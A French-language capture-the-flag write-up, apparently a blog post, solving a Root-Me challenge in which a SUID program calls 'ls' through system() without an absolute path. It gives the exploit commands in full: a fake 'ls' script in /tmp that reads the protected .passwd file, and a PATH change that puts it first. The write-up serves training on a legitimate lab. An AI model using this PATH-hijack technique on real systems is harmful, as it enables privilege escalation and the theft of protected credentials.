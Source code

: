 ```yaml
---
title: "RootMe App-Script/Bash-System-2"
seoTitle: "RootMe App-Script/Bash-System-2"
datePublished: Mon Jun 09 2025 22:49:08 GMT+0000 (Coordinated Universal Time)
cuid: cmbpop0sd000102l5h9ns2pan
slug: rootme-app-scriptbash-system-2
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1749504538459/36c14397-4060-42a6-8c24-02584a9f4010.png
tags: bash, cybersecurity-1, shell-script, root-me

---
```


Lien : [https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2](https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749505028969/8161ee5c-7590-496b-853f-cb2c6b78550e.png align="center")

On veut pouvoir lire le mot de passe du fichier `.passwd` mais il n’est lisible que par le propriétaire du fichier `app-script-ch12-cracked`.

Le code source de `ch12.c` utilise la fonction `system()` pour lister le répertoire du fichier `.passwd`. Par contre la commande `ls` est appelée dans la fonction `system()` sans spécifier le chemin absolu, c’est-à-dire `/bin/ls`. Puisque le fichier `ch12` a le binaire SUID activé, il peut s’exécuter avec les droits du propriétaire. Quand la commande `ls` sera exécutée par la commande `system()`, le shell regardera au niveau des variables d’environnement PATH puis cherche la commande `ls` dans les répertoires. La commande qu’on aura manipulé sera donc exécutée à la place.

Créér le répertoire dans /tmp/script

```bash
mkdir /tmp/script
nano /tmp/script/ls
```

Écrire ensuite le script pour lire le fichier `.passwd`.

```bash
#!/bin/bash
cat /challenge/app-script/ch12/.passwd
```

Rendre le script ls exécutable

```bash
chmod +x /tmp/script/ls
```

Modifier la variable d’environnement PATH pour inclure notre script

```bash
export PATH=/tmp/script:$PATH
```

En vérifiant avec la command `which ls`, on voit que que le script est bien trouvé avant la commande ls.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509148631/6dd13ac1-3b25-4e01-800c-c3d9d4bc464c.png align="center")

On peut maintenant lire le fichier.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509071532/4f6bdf63-3c6c-4555-81b5-548700be846c.png align="center")